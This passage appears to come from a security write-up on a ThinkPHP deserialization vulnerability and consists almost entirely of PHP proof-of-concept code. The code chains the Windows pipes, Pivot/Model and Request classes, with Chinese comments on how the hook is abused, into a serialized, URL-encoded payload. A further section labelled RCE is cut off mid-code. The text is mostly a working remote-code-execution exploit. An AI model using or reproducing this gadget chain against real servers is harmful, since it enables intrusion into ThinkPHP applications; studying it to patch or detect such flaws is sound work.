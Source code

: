 ```php
        protected $append = array("key" => array('visible' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => (new \think\Request())); //key 与上面$append那个key保持相同
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }
    class Request{
        protected $hook = ["visible"=>"printf"];
        //单参数直接执行自带函数
        //function __construct(){
        //  $this->hook = ["visible"=>[$this,"isAjax"]];
        //}
        //因为call_user_func_array的原因，当有2个参数时：第一个参数为类,第二个参数为方法名
        
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }

}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```

### RCE
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
        protected $append = array("key" => array('visible' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => (new \think\Request())); //key 与上面$append那个key保持相同
```